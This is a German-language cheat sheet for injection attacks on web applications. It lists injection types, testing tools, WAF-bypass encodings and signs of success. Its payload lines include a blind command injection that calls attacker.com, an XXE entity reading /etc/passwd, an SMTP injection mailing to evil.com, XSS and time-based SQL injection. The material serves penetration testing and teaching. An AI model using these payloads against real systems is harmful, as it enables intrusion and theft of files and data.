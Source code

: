 | Typ                                | Ziel                 | Beschreibung                           |
| ---------------------------------- | -------------------- | -------------------------------------- |
| **SQL Injection**                  | Datenbanken          | Manipulation von SQL-Abfragen          |
| **Command Injection**              | Shell                | Ausführung systemweiter Befehle        |
| **LDAP Injection**                 | Directory Services   | Manipulation von LDAP-Filterausdrücken |
| **XSS** (Reflektiert, Stored, DOM) | Browser              | Einschleusen von JavaScript            |
| **XML Injection / XXE**            | XML-Parser           | Zugriff auf Files, SSRF über XML       |
| **NoSQL Injection**                | MongoDB, CouchDB     | Manipulation von JSON-Queries          |
| **SMTP Injection**                 | Mailserver           | Einschleusen von Mail-Kommandos        |
| **CRLF Injection**                 | HTTP Header          | HTTP-Response Splitting                |
| **XPath Injection**                | XML-Datenbank        | Manipulation von XPath-Ausdrücken      |
| **SSI Injection**                  | Server-Side Includes | Serverseitige Codeausführung           |
| **Host Header Injection**          | HTTP-Header          | SSRF, Reset-Links hijacken             |
| **Template Injection (SSTI)**      | Template Engines     | Server-Side Code Execution             |
| **GraphQL Injection**              | GraphQL APIs         | Query-Manipulation und introspection   |

' " ` ; ) ( < > ${} || && //


'; WAITFOR DELAY '0:0:5'--        # SQLi Time
| sleep 5                         # Command Inj.
`nslookup attacker.com`          # Blind CMD
"><script>alert(1)</script>      # XSS
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
" | mail -s pwn me@evil.com      # SMTP Inj.

| Typ          | Tool                                | Zweck                |
| ------------ | ----------------------------------- | -------------------- |
| SQLi         | `sqlmap`, `Burp`, `sqlitebrowser`   | Vollautomatisierung  |
| CMD          | `Commix`, `Burp`, `curl`            | Command Exec         |
| XSS          | `XSStrike`, `Dalfox`, `XSScrapy`    | Kontextanalyse       |
| XML / XXE    | `Burp`, `XXEinjector`, `xmlstarlet` | File Read, SSRF      |
| SSTI         | manuell / `tplmap`                  | Template-Injektion   |
| LDAP / XPath | manuell                             | Logikfehler erzeugen |
| NoSQL        | `NoSQLMap`, `Burp`                  | JSON-Manipulation    |


**Bypassing WAFs & Filters:**
| Technik              | Beispiel                          |
| -------------------- | --------------------------------- |
| URL-Encoding         | `%27` statt `'`                   |
| Doppel-Encoding      | `%2527`                           |
| Keyword-Splitting    | `SEL/**/ECT`                      |
| Case-Bypass          | `SeLeCt`                          |
| Whitespaces ersetzen | `+`, `%09`, `%0a`                 |
| Comments             | `UN/**/ION/**/SELECT`             |
| Obfuscation          | `char(97)+char(100)+char(109)...` |

| Kontext       | Beispiel-Injektion             |   |                |
| ------------- | ------------------------------ | - | -------------- |
| GET-Parameter | `/index.php?id=1' -- `         |   |                |
| POST-Body     | `username=admin' -- `          |   |                |
| JSON-API      | `{"user":"admin' -- "}`        |   |                |
| HTTP-Header   | \`User-Agent: '                |   | sleep(5) -- \` |
| Cookies       | `Cookie: session=1' or '1'='1` |   |                |
| URL-Path      | `/product/' OR 1=1--`          |   |                |


| Indikator              | Bedeutung                        |
| ---------------------- | -------------------------------- |
| SQL-Fehler             | `mysql_fetch...`, `syntax error` |
| Verzögerung            | Time-Based Blind                 |
| Ungewöhnliche Ausgaben | z. B. `uid=0(root)`              |
| Reflektierter Payload  | XSS wahrscheinlich               |
| Zugriff auf Files      | XXE, CMD                         |
| Statuscode 500/403/301 | Filterung oder WAF               |
